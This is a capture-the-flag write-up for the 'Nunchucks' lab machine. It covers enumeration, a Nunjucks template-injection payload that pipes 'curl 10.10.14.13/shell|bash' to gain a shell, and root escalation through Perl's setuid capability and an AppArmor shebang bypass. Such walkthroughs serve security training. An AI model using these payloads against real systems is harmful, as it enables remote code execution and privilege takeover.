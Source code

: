# Nunchucks

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.252
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-10 04:51 EDT
Nmap scan report for 10.129.95.252
Host is up (0.016s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

We have to add `nunchucks.htb` to our `/etc/hosts` file to access port 80.

### Web Enum

Port 80 reveals an ecommerce platform.

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Registering is closed:

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website and it looks rather static, so we can do some subdomain and directory fuzzing. Using `wfuzz`, I found out there was a `store` subdomain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.nunchucks.htb' --hw=2271 https://nunchucks.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000037:   200        101 L    259 W      4028 Ch     "store"
```

### Email SSTI --> Shell

This was another store:

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

When we submit an email, it would print it back on the screen.

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

The box name was a hint that it was using NUNJUCKS, so we can try some SSTI here. We can verify it works by using `{{7*7}}` as part of the email:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to gain a reverse shell using SSTI for RCE. If we analyse the HTTP traffic, we can see that the emails are being sent to `/api/submit` and processed.&#x20;

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Using this, we can start to generate a payload:

{% code overflow="wrap" %}
```javascript
{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell|bash')")()}}
```
{% endcode %}

Here's the final request I used to get a shell:

{% code overflow="wrap" %}
```http
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=sS5N1jkHeT3qF-BegglaZv_v
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 141
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close



{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.13/shell.sh|bash')\")()}}"
}
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

Grab the user flag.

## Privilege Escalation

### Perl Capabilities

Within the `/opt` directory, there's a few files:

```
david@nunchucks:/opt$ ls -la
total 16
drwxr-xr-x  3 root root 4096 Oct 28  2021 .
drwxr-xr-x 19 root root 4096 Oct 28  2021 ..
-rwxr-xr-x  1 root root  838 Sep  1  2021 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28  2021 web_backups
```

The first few lines of `backup.pl` stand out to me:

```perl
david@nunchucks:/opt$ cat backup.pl 
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0);
```

It seems that the perl script is able to run `setuid(0)`. This means that it's probably being run as `root` or it just has the capability to do so. We can enumerate this using `getcap`:

```
david@nunchucks:/opt$ getcap /usr/bin/perl
/usr/bin/perl = cap_setuid+ep
```

This confirms that we can just run this command torun commands and spawn a `root` shell:

```
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
david@nunchucks:/opt$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/opt$
```

Interestingly, it does not let us spawn a shell. There's an application that is blocking us.&#x20;

### AppArmor Bypass --> Shell

While reading about security programs in Linux, I ran the `aa-status` command and confirmed that AppArmor is running:

```
david@nunchucks:/opt$ aa-status
apparmor module is loaded.
You do not have enough privilege to read the profile set.
```

This program is a kernel enhancement to confine programs to a limited set of resources, thus explaining why `perl` can only run simple commands and we can't spawn shells. There are bugs on Hacktricks that explain how to bypass these using a shebang.

{% embed url="https://bugs.launchpad.net/apparmor/+bug/1911431" %}

We just have to run these:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>
